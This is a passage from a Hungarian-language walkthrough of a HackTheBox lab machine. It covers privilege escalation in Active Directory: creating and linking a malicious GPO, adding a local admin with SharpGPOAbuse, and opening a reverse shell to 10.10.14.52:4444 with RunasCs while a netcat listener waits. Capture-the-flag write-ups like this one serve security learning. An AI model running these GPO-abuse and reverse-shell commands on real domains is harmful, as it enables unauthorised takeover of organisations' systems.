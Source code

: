### GPO létrehozása + GPO abuse

**Új GPO létrehozása:**

```powershell
New-GPO -Name GPO-new | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

**GPO ellenőrzés:**

```powershell
get-GPO -All
```

**Magad adminná tétele (SharpGPOAbuse):**

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```

- Várj vagy **gpupdate /force** a célgépen

**Admin jog ellenőrzés:**

```
net localgroup administrators
```

---

## SYSTEM / root shell szerzés RunasCs-sel

**RunasCs exe-t saját magad buildeld le (lásd részletes folyamat a jegyzet végén)**

**Reverse shell payload (PowerShell):**

```powershell
.\RunasCs.exe 'M.schoolbus' '!suBc*****' powershell.exe -r 10.10.14.52:4444
```

- Netcat listener: `nc -lvnp 4444`
- Ha meterpreteres shell kell, msfvenommal gyárts payloadot, azt indítsd RunasCs-sel

**Root.txt megszerzése:**

```
type C:\Users\Administrator\Desktop\root.txt
```

---

# **Bónusz: saját RunasCs.exe build Windows alatt (gyors workflow)**

1. Töltsd le a forrást: [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)
2. Windows-on telepítsd a Visual Studio Build Tools-t (csak .NET build kell)
3. Nyisd meg a "Developer Command Prompt for VS"-t
4. Navigálj a RunasCs mappába, majd:
   ```cmd
   msbuild /p:Configuration=Release
   ```
5. Az exe itt lesz: `bin\Release\RunasCs.exe`
6. Másold át pendrive-ra, vagy dobj fel GitHub privát repóba, aztán Linuxról szedd le

---